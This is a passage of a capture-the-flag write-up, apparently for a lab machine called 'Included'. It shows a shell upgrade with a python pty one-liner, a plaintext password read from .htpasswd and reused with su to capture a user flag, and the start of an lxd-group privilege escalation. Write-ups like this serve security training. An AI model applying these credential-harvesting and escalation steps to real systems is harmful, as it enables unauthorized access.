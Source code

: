 We need to escalate our privileges if we want to get access to the flags. The `/var/www/html` directory of a web server often contains passwords hardcoded into configuration files.

To get a proper TTY shell, we need to execute:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`



```console 
www-data@included:/$ cd /var/www/html    
www-data@included:/var/www/html$ ls -lah
total 88K
drwxr-xr-x 4 root     root     4.0K Oct 13  2021 .
drwxr-xr-x 3 root     root     4.0K Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data  212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data   17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data  14K Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data 4.0K Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data  20K Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data 3.7K Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data 4.0K Apr 23  2021 images
-rw-r--r-- 1 www-data www-data  145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data  17K Apr 29  2014 license.txt
www-data@included:/var/www/html$ cat .htpasswd
mike:Sheffield19
```

We got mikes password, lets login.

User:pass `mike:Sheffield19`

```
www-data@included:/$ su mike
Password: Sheffield19
mike@included:/$ cd home/mike
mike@included:~$ ls
user.txt
mike@included:~$ cat user.txt   
a56ef91d70cfbf2cdb8f454c006935a1
```

The user flag: `a56ef91d70cfbf2cdb8f454c006935a1`

Now for the root flag.

We can use `id` to see all the group's mike is a member of.

```console
mike@included:/$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
```

Everything looks normal except for lxd.

Upon searcing for an exploit we find [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) guide.

First we need to install Go and some other dependencies.
